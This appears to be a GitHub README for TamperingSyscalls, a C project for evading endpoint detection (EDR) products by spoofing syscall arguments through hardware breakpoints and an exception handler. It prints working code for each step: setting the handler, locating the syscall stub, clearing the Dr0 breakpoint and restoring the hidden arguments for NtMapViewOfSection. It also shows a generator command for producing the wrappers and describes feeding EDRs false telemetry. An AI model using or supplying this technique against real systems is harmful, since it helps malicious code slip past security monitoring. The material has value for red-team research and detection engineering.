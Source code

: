 # TamperingSyscalls
TamperingSyscalls is a 2 part novel project consisting of argument spoofing and syscall retrival which both abuse EH in order to subvert EDRs. This project consists of both of these projects in order to provide an alternative solution to direct syscalls.

**Tampering with syscalls.** 
1. Set up a global EH which will be used later.
```c
SetUnhandledExceptionFilter( OneShotHardwareBreakpointHandler );
```
2. Set a hardware breakpoint on the address of a syscall instruction which has the bytes `0f05` on the Dr0 register.
We can locate the address of the syscall stub with this quick memory byte search.
```c
BYTE stub[] = { 0x0F, 0x05 };
for( unsigned int i = 0; i < (unsigned int)25; i++ )
{
	if( memcmp( (LPVOID)((DWORD_PTR)function + i), stub, 2 ) == 0 ) {
		return (LPVOID)((DWORD_PTR)function + i);
	}
}
  ```
3. We can then make a call to this function passing NULL for the <=4 arguments (which tend to be the more important arguments holding information such as process handles .etc) We also set the EnumState to the corresponding Enum for this function (so we can later fix the arguments).
4. While the EDR has full introspection into our arguments, it cannot confidently make the decision we are performing a malicious action as we have passed NULL as the first <=4 arguments.
5. The EDR will then return the syscall number(SSN) and store it in RAX. If you are only interested in retreiving syscalls, [check out the stripped branch of this repository.](https://github.com/rad9800/TamperingSyscalls/blob/stripped/TamperingSyscalls/entry.cpp)
6. The program then flows into the syscall instruction { 0x0F, 0x05 } which hits the breakpoint we previously set. This will then throw a SINGLE_STEP exception which will be handled by the exception handler we setup in Step 1.
```c
if( ExceptionInfo->ExceptionRecord->ExceptionCode == STATUS_SINGLE_STEP )
```
7. This exception handler will disable the hardware breakpoint for Dr0 only if the Dr0 and RIP match by setting the value the Dr0 register points to 0 (which should be the current RIP)
```c
if( ExceptionInfo->ExceptionRecord->ExceptionCode == STATUS_SINGLE_STEP )
{
	if( ExceptionInfo->ContextRecord->Dr7 & 1 ) {
		if( ExceptionInfo->ContextRecord->Rip == ExceptionInfo->ContextRecord->Dr0 ) {
			ExceptionInfo->ContextRecord->Dr0 = 0;
```
7. We will then fix the remaining registers we had previously set to NULL. The reason it is 4 is that this the x64 calling convention dictates we use RCX, RDX, R8, R9 for the first 4 arguments, and the rest are setup on the stack. It is possible to manually set these up the >4 parameters on the stack but this is beyond the scope of this project as it would require inline assembly. The reason why it is R10 not RCX is that at the start of every syscall stub `mov r10, rcx` as the RCX register is destroyed in the next instructions.
```c
case NTMAPVIEWOFSECTION_ENUM:
	ExceptionInfo->ContextRecord->R10 =
		(DWORD_PTR)((NtMapViewOfSectionArgs*)(StateArray[EnumState].arguments))->SectionHandle;

	ExceptionInfo->ContextRecord->Rdx =
		(DWORD_PTR)((NtMapViewOfSectionArgs*)(StateArray[EnumState].arguments))->ProcessHandle;

	ExceptionInfo->ContextRecord->R8 =
		(DWORD_PTR)((NtMapViewOfSectionArgs*)(StateArray[EnumState].arguments))->BaseAddress;

	ExceptionInfo->ContextRecord->R9 =
		(DWORD_PTR)((NtMapViewOfSectionArgs*)(StateArray[EnumState].arguments))->ZeroBits;
```
We can see in this example we are fixing the arguments for NtMapViewOfSection.

## Howto
If you'd like to start to fake EDR telemetry it is possible to modify the p[FunctionName] definitions where they are currently set to NULL. 

## Generation

To generate the required functions, use `gen.py`. This supports either:

- Comma separated functions
```
python gen.py NtOpenSection,NtMapViewOfSection,NtUnmapViewOfSection
```

It will produce 3 files: TamperingSyscalls.cpp, TamperingSyscalls.h, and main.cpp. You can `#include "TamperingSyscalls.h"` into your project. We can call the functions by appending the function name to p, for example `pNtOpenSection(...);`


### Limitations
We cannot set a breakpoint on NtSetThreadContext or it's variants as this is used to set the debug registers.
There is a brief period where the debug registers are set, but this is very small and I do not think we will be detected for holding an open Dr0.

I have published a small blog post, touching upon these techniques.
[TamperingSyscall's Overview Blog Post](https://fool.ish.wtf/2022/08/tamperingsyscalls.html)
[TamperingSyscall's Fake Intropspection Blog Post](https://fool.ish.wtf/2022/08/feeding-edrs-false-telemetry.html)
